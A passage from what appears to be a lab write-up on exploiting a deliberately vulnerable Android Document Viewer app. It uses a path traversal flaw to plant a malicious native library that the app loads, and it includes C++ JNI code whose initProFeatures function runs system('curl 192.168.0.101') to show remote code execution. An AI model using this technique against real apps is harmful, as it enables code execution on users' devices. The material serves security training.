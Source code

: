To exploit this flaw, we need to create an HTTP server and serve an application that distributes the file we want to store on the victim's phone. Before we proceed with the path traversal exploitation, we need to understand which file we'll inject into the victim's phone. For this purpose, let's revisit `MainActivity`. There's a function called `loadProLibrary` that attempts to load a library named `libdocviewer_pro.so` from the directory `/data/user/0/com.mobilehackinglab.documentviewer/files/native-libraries/arm64-v8a/`. If the library load is successful, it sets the variable `proFeaturesenabled` to `true`, which will subsequently call the `private final native void initProFeatures` function inside the `.so`.

Output from logcat when attempting to run the application without the `.so` file existing:
```
Unable to load library with Pro version features! (You can ignore this error if you are using the Free version)
java.lang.UnsatisfiedLinkError: dlopen failed: library 
"/data/user/0/com.mobilehackinglab.documentviewer/files/native-libraries/arm64-v8a/libdocviewer_pro.so" not found
```

```java
// loadProLibrary function
private final void loadProLibrary() {
    try {
        String abi = Build.SUPPORTED_ABIS[0];
        File libraryFolder = new File(getApplicationContext().getFilesDir(), "native-libraries/" + abi);
        File libraryFile = new File(libraryFolder, "libdocviewer_pro.so");
        System.load(libraryFile.getAbsolutePath());
        this.proFeaturesEnabled = true;
    } catch (UnsatisfiedLinkError e) {
        Log.e(TAG, "Unable to load library with Pro version features! (You can ignore this error if you are using the Free version)", e);
        this.proFeaturesEnabled = false;
    }
}
```

Thus, we already know that we have a path traversal to save our `.so` in the correct folder, and we also know that we can obtain RCE from loading this library. Now let's create our own library.

### Create the library

The easiest way to do this is to start a new native C++ project in Android Studio. After creating the project, simply rename the generated `.so` file to `docviewer_pro`. In our code, we just need to implement the `Java_com_mobilehackinglab_documentviewer_MainActivity_initProFeatures` function, which will be called when the `initProFeatures` function in the Java code of the Document Viewer app is called. Inside our library, we put a call to the `system` function to obtain remote code execution.

```c++
// 
#include <jni.h>
#include <cstdlib>

extern "C" JNIEXPORT jobject JNICALL
Java_com_mobilehackinglab_documentviewer_MainActivity_initProFeatures(
        JNIEnv* env,
        jobject /* this */) {

   system("curl 192.168.0.101");

}
```
